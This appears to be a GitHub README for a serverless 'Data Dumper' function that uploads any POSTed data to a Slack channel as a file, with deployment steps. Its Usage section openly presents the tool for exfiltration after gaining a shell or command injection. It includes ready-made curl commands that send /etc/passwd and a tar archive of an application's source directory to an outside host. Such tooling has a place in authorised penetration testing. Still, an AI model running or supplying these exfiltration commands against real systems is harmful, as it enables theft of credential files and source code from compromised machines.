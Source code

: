 # Data Dumper
This serverless function takes any data sent to it in a POST body request and writes to a file in Slack using the [Slack Files Upoad API](https://api.slack.com/methods/files.upload). A message is then sent to the channel with the uploaded file.

For convenience, the function takes whatever path you POST to and uses that as as the filename for the uploaded paht. If the data is POSTed to the `/` path, a UUID is generated instead.

## Deployment
This function requres two environment variables:

 * `SLACK_TOKEN` - An OAuth Access token for your Slack App. The app also needs the necessary permissions, including the "Upload and modify files as user" scope.
 * `SLACK_CHANNEL` - the Channel ID to post the message to

I recommend using Now's secrets to store these values. To deploy the function:

```
$ now secrets add slack-token "xxxx-token-here"
$ now secrets add slack-channel "Cxxxxx"
$ now -e SLACK_TOKEN=@slack-token -e SLACK_CHANNEL=@slack-channel --public
```

## Usage
The function reads any raw POST body data and uploads is a file. It's generally designed to be used with `curl --data-binary` from the command line.

You can control the filename by changing the path you POST to.

For example, to exfiltrate `/etc/passwd` when you have a shell or command injection:

```
$ curl --data-binary @/etc/passwd https://datadump-slack-ogfklyqrmv.now.sh/passwd_file
```

This will upload the file and alert the channel in Slack with the file

![dump_passwd_file](../imgs/serverless_dumper_passwd.png)

It's also possible to upload with curl from  `stdin`, so you can chain commands together and exfiltrate entire directories using tar:

```
$ tar czf - /app/src | curl --data-binary @- https://datadump-slack-ogfklyqrmv.now.sh/app_src123.tar.gz
```
![slacK_tarball_dump](../imgs/slack_tarball_dump.png)

